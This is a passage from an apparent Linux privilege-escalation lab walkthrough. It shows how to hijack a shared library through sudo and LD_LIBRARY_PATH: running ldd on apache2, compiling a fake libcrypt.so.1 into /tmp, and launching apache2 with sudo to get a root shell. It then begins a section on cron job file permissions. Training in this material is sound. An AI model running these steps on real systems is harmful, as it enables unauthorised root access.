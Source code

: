 A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program.

**Victim**

```
ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library\_path.c.

**Victim**

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

<figure><img src="../../.gitbook/assets/image (8) (8).png" alt=""><figcaption></figcaption></figure>

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library\_path.c.

**Victim**

<pre><code><strong>sudo LD_LIBRARY_PATH=/tmp apache2
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (4).png" alt=""><figcaption></figcaption></figure>

## Cron Jobs - File Permissions

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at /etc/crontab.

View the contents of the system-wide crontab.
